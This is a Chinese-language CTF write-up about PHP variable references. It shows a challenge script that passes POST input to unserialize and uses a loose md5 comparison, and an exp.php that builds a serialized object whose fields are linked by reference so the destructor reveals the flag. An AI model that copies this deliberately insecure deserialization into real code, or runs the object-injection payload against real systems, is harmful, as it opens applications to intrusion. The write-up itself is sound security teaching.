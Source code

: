 # 考察知识点：

## 1. php变量引用

大体意思就是通过&符号：

```javascript
$a=&$b;
将a变量和b变量指向同一个地址，是两个变量的值相等
```



官方文档：

1.引用是什么：http://www.php.net/manual/zh/language.references.whatare.php

2.引用做什么：http://www.php.net/manual/zh/language.references.whatdo.php

3.引用传递：http://www.php.net/manual/zh/language.references.pass.php

4.引用返回：http://www.php.net/manual/zh/language.references.return.php





```javascript
<?php
/**
 * Created by PhpStorm.
 * User: jinzhao
 * Date: 2019/10/6
 * Time: 8:04 PM
 */

highlight_file(__FILE__);

class BUU {
   public $correct = "";
   public $input = "";

   public function __destruct() {
       try {
           $this->correct = base64_encode(uniqid());
           if($this->correct === $this->input) {
               echo file_get_contents("/flag");
           }
       } catch (Exception $e) {
       }
   }
}

if($_GET['pleaseget'] === '1') {
    if($_POST['pleasepost'] === '2') {
        if(md5($_POST['md51']) == md5($_POST['md52']) && $_POST['md51'] != $_POST['md52']) {
            unserialize($_POST['obj']);
        }
    }
}
```



exp.php

```javascript
<?php
class BUU
{
    public $correct = "";
    public $input ="";
}
$buu =new BUU();
$buu->input=&$buu->correct;

echo serialize($buu);

```



